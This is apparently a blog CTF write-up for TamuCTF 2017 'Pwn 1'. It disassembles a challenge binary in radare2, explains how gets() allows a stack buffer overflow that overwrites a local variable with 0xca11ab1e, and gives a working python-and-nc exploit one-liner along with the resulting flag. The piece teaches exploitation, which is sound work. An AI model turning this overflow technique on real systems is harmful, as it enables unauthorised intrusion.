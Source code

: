 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: "We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn1 Challenge Description](/assets/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 -A pwn1  
```

Now that the binary is opened, we need to analyze its content.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   sym.frame_dummy
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
0x08048630    4 93           sym.__libc_csu_init
0x08048690    1 2            sym.__libc_csu_fini
0x08048694    1 20           sym._fini
{{< /highlight >}}

Interesting, there is `print_flag` function at `0x0804854b`. Lets see what's inside.

{{< highlight r2 "hl_lines=17 18" >}}
[0x08048450]> s sym.print_flag 
[0x0804854b]> pdf 
┌ (fcn) sym.print_flag 103 
│   sym.print_flag ();
│           ; var int local_dh @ ebp-0xd
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x08048606 (main)
│           0x0804854b      55             push ebp
│           0x0804854c      89e5           ebp = esp
│           0x0804854e      83ec18         esp -= 0x18
│           0x08048551      83ec0c         esp -= 0xc
│           0x08048554      68b0860408     push str.How_did_you_figure_out_my_secret__
│           0x08048559      e892feffff     sym.imp.puts ()
│           0x0804855e      83c410         esp += 0x10
│           0x08048561      83ec08         esp -= 8
│           0x08048564      68d3860408     push 0x80486d3
│           0x08048569      68d5860408     push str.flag.txt
│           0x0804856e      e8adfeffff     sym.imp.fopen ()
│           0x08048573      83c410         esp += 0x10
│           0x08048576      8945f4         dword [local_ch] = eax
│       ┌─< 0x08048579      eb10           goto 0x804858b
│       │      ; JMP XREF from 0x080485a0 (sym.print_flag)
│      ┌──> 0x0804857b      0fbe45f3       eax = byte [local_dh]
│      |│   0x0804857f      83ec0c         esp -= 0xc
│      |│   0x08048582      50             push eax
│      |│   0x08048583      e8a8feffff     sym.imp.putchar ()
│      |│   0x08048588      83c410         esp += 0x10
│      ↑│      ; JMP XREF from 0x08048579 (sym.print_flag)
│      |└─> 0x0804858b      83ec0c         esp -= 0xc
│      |    0x0804858e      ff75f4         push dword [local_ch]
│      |    0x08048591      e84afeffff     sym.imp._IO_getc ()
│      |    0x08048596      83c410         esp += 0x10
│      |    0x08048599      8845f3         byte [local_dh] = al
│      |    0x0804859c      807df3ff       var = byte [local_dh] - 0xff
│      └──< 0x080485a0      75d9           if (var) goto 0x804857b
│           0x080485a2      83ec0c         esp -= 0xc
│           0x080485a5      6a0a           push 0xa
│           0x080485a7      e884feffff     sym.imp.putchar ()
│           0x080485ac      83c410         esp += 0x10
│           0x080485af      90             
└           0x080485b0      c9             
{{< /highlight >}}

Because of the offsets `0x08048569` and `0x0804856e`, we can deduce that the function opens a file called `flag.txt` and prints its content. Fantastic :v: , so we just need to know who will call `print_flag`. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the current function.

```r2
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` which belongs to `main` function. Lets see whats inside it.

{{< highlight r2 "hl_lines=30 31 32 34 35 36" >}}
[0x0804854b]> pdf @ main   
            ;-- main:
┌ (fcn) main 120
│   main ();
│           ; var int local_27h @ ebp-0x27
│           ; var int local_ch @ ebp-0xc
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x08048467 (entry0)
│           0x080485b2      8d4c2404       ecx = [local_4h]
│           0x080485b6      83e4f0         esp &= 0xfffffff0
│           0x080485b9      ff71fc         push dword [ecx - 4]
│           0x080485bc      55             push ebp
│           0x080485bd      89e5           ebp = esp
│           0x080485bf      51             push ecx
│           0x080485c0      83ec24         esp -= 0x24
│           0x080485c3      a130a00408     eax = dword obj.stdout
│           0x080485c8      6a00           push 0
│           0x080485ca      6a00           push 0
│           0x080485cc      6a02           push 2
│           0x080485ce      50             push eax
│           0x080485cf      e83cfeffff     sym.imp.setvbuf ()
│           0x080485d4      83c410         esp += 0x10
│           0x080485d7      83ec0c         esp -= 0xc
│           0x080485da      68de860408     push str.Enter_the_secret_word:
│           0x080485df      e80cfeffff     sym.imp.puts ()
│           0x080485e4      83c410         esp += 0x10
│           0x080485e7      c745f4000000.  dword [local_ch] = 0
│           0x080485ee      83ec0c         esp -= 0xc
│           0x080485f1      8d45d9         eax = [local_27h]
│           0x080485f4      50             push eax
│           0x080485f5      e8d6fdffff     sym.imp.gets ()
│           0x080485fa      83c410         esp += 0x10
│           0x080485fd      817df41eab11.  var = dword [local_ch] - 0xca11ab1e
│       ┌─< 0x08048604      7507           if (var) goto 0x804860d
│       │   0x08048606      e840ffffff     sym.print_flag ()
│      ┌──< 0x0804860b      eb10           goto 0x804861d
│      ││      ; JMP XREF from 0x08048604 (main)
│      │└─> 0x0804860d      83ec0c         esp -= 0xc
│      │    0x08048610      68f5860408     push str.That_is_not_the_secret_word_
│      │    0x08048615      e8d6fdffff     sym.imp.puts ()             ; int puts(const char *s)
│      │    0x0804861a      83c410         esp += 0x10
│      │       ; JMP XREF from 0x0804860b (main)
│      └──> 0x0804861d      b800000000     eax = 0
│           0x08048622      8b4dfc         ecx = dword [local_4h_2]
│           0x08048625      c9             
│           0x08048626      8d61fc         esp = [ecx - 4]
└           0x08048629      c3             
{{< /highlight >}}



We see that `print_flag` will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is `local_27h` through the `gets` function.

So what we need to do? As maybe you know, `gets` is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then, if we input more characters than it is supposed to store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/assets/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting `local_ch`?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
